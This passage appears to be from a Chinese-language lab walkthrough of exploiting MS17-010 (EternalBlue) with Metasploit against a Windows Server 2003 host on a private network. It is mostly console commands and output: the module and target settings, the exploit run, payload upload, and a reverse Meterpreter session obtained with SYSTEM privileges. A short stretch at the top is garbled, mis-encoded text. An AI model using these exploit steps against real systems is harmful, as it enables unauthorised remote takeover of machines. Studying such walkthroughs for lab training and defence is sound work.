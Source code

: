 ```
³ʔ±

-------------------------------------------------------------------------------
Administrator            
ļ®³ɹ¦Ϊ³ɡ£


[+] 192.168.135.136:445   - Cleanup was successful
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```

Successful 而且目标为Administrator  权限

#### 攻击目标

```
msf auxiliary(admin/smb/ms17_010_command) > use exploit/windows/smb/ms17_010_psexec //使用攻击模块
msf exploit(windows/smb/ms17_010_psexec) > set rhost 192.168.135.136 //设置目标
rhost => 192.168.135.136
```

对于ms17_010_psexec攻击脚本,不需要设置payload,我原先设置windows/x64/meterpreter/reverse_tcp

载荷一直不出来结果,后来才得知这个攻击脚本里面有meterpreter的载荷,无需设置即可

```
msf exploit(windows/smb/ms17_010_psexec) > exploit   //开始攻击

[*] Started reverse TCP handler on 192.168.135.134:4444 
[*] 192.168.135.136:445 - Target OS: Windows Server 2003 3790 Service Pack 2
[*] 192.168.135.136:445 - Filling barrel with fish... done
[*] 192.168.135.136:445 - <---------------- | Entering Danger Zone | ---------------->
[*] 192.168.135.136:445 - 	[*] Preparing dynamite...
[*] 192.168.135.136:445 - 		Trying stick 1 (x64)...Miss
[*] 192.168.135.136:445 - 		[*] Trying stick 2 (x86)...Boom!
[*] 192.168.135.136:445 - 	[+] Successfully Leaked Transaction!
[*] 192.168.135.136:445 - 	[+] Successfully caught Fish-in-a-barrel
[*] 192.168.135.136:445 - <---------------- | Leaving Danger Zone | ---------------->
[*] 192.168.135.136:445 - Reading from CONNECTION struct at: 0x8f3e37c0
[*] 192.168.135.136:445 - Built a write-what-where primitive...
[+] 192.168.135.136:445 - Overwrite complete... SYSTEM session obtained!
[*] 192.168.135.136:445 - Selecting native target
[*] 192.168.135.136:445 - Uploading payload...
[*] 192.168.135.136:445 - Created \ZKbfdlYf.exe...
[+] 192.168.135.136:445 - Service started successfully...
[*] 192.168.135.136:445 - Deleting \ZKbfdlYf.exe...
[-] 192.168.135.136:445 - Delete of \ZKbfdlYf.exe failed: The server responded with error: STATUS_CANNOT_DELETE (Command=6 WordCount=0)
[*] Sending stage (179779 bytes) to 192.168.135.136
[*] Sleeping before handling stage...
[*] Meterpreter session 1 opened (192.168.135.134:4444 -> 192.168.135.136:2240) at 2019-02-19 19:13:26 +0800

meterpreter >           //攻击成功,拿到目标的会话

```

